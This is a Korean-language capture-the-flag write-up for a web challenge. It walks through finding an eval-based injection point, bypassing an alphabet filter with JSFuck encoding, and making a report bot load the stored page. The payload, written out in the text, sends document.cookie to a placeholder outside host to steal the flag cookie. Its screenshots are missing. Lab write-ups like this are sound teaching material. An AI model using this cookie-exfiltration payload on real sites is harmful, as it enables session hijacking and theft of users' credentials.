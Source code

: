 문제 설명
 

대상 웹사이트 메인
 

문제 풀이
 

대상 웹사이트 메인
대상 웹사이트 메인
 

대상 웹사이트에 접속하였을 때의 메인화면이다. Baby's music, Saved, Go to Report 세가지 메뉴가 존재한다.

 

먼저 Baby's music 메뉴에 접근해보았을 때 메뉴는 다음과 같다.

 

대상 웹사이트 메인
Baby's music (1)
 

입력할 수 있는 입력창과 확인 버튼 그리고 save 버튼이 존재하였으며 일단 임의의 문자열 입력 후 확인 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Baby's music (2)
 

nope! 이라는 메시지가 출력되었다.

 

대상 웹사이트 메인
Baby's music (3)
 

임의의 숫자를 입력 후 확인 버튼 클릭 시 입력한 숫자가 포함된 문자열이 출력되는 것을 확인하였으며 save 버튼 클릭 시 id를 발급받을 수 있었다.

 

다음은 Saved 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Saved (1)
 

?id= 라는 문자열이 출력되었다. ?가 붙어있는 것을 보고 파라미터인 것 같다는 생각이 들어 url에 파라미터를 입력해보았다.

 

대상 웹사이트 메인
Saved (2)
 

id 파라미터에 방금 발급받았던 id 값을 입력하였더니 사용자가 입력한 값이 포함되어 저장된 내용이 출력되었다.

 

다음은 Go to Report 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Go to Report (1)
 

입력창과 제출 버튼이 있어 임의의 문자열 입력 후 제출 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Go to Report (2)
 

Reported! 메시지가 출력되었는데 어떤 기능이 실행되는지는 알 수 없었다.

 

코드 분석
 

대상 웹사이트 메인
코드 분석 (1)
 

cookies 변수에 FLAG 가 저장되어있는 것을 알 수 있다.

 

대상 웹사이트 메인
코드 분석 (2)
 

이 코드를 통해 Go to Report 메뉴의 기능을 확인할 수 있었다. cookies 변수에 저장된 값을 이용하여 쿠키를 세팅하며 요청 패킷의 url 파라미터를 통해 입력받은 url로 서버에서 접근하게 된다는 것을 알 수 있다. 프록시를 통해 확인한 url 파라미터 값은 다음과 같다.

 

대상 웹사이트 메인
코드 분석 (3)
 

 

다음으로 주목할 부분은 Baby's music 메뉴의 소스코드이다.

 

대상 웹사이트 메인
코드 분석 (4)
 

입력 받은 값을 정규 표현식을 통해 필터링하는 부분이 존재하며 필터링되지 않는다면 eval 함수의 인자값에 사용자가 입력한 값이 포함되는 것을 확인하였다. 이를 통해 악의적인 스크립트를 삽입할 수 있을 것이라고 생각하였다.

 

공격 시나리오
 

웹사이트의 메뉴를 확인하고 코드를 분석한 결과 다음과 같은 시나리오를 생각해보았다.

 

1. Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

2. Go to Report 메뉴에서 saved?id='save_id' 를 입력하여 서버 측에서 악의적인 스크립트가 삽입된 페이지에 접근하도록 하여 쿠키를 탈취한다.

 

 

공격 실행
 

1) Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

Baby's music 메뉴에서 다음과 같은 스크립트를 삽입하고자 한다.

 


',location.href="request_url/"+document.cookie,'
 

스크립트의 앞부분에 ', 과 뒷부분에는 ,' 가 존재하는 이유는 Baby's music 에서 입력한 값은 eval 함수의 인자에 삽입되기 때문이다.

 


eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
 

 

입력한 값이 ${age} 에 삽입되게 되는데 악의적인 스크립트가 삽입된 결과는 다음과 같다.

 


eval(`msg.innerHTML='This is recommended album for ',location.href="request_url/"+document.cookie,'-year-old.'`);
 

 

이렇게 삽입되면 eval 함수를 통해 삽입된 악의적인 스크립트가 실행된다.

 

하지만 알파벳은 필터링되어 스크립트가 삽입될 수 없으므로 다른 방법으로 삽입해야한다.

 

대상 웹사이트 메인
공격 실행 (1)
 

삽입할 스크립트를 JSFuck 기법으로 인코딩하여 삽입한다.

 

먼저 임의의 숫자를 입력 후 save 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (2)
 

프록시 도구에서 스크립트를 삽입한다.

 

대상 웹사이트 메인
공격 실행 (3)
 

발급받은 id 값을 확인한다.

대상 웹사이트 메인
공격 실행 (4)
 

Go to Report 메뉴로 이동하여 saved?id='발급받은 id' 를 입력 후 제출 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (5)
 

 

쿠키 탈취에 성공하여 flag를 확인하였다.

 

대상 웹사이트 메인
공격 실행 (6)
